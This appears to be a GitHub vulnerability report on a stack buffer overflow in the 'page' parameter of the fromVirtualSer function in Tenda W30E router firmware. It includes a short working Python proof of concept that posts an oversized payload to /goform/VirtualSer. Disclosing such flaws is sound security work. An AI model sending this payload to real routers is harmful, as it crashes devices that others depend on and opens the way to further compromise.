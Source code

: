 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `fromVirtualSer` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(s, "nat_virtualser.asp?page=%s", v5);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![image-20240409103214893](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103214893.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409103225251](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103225251.png)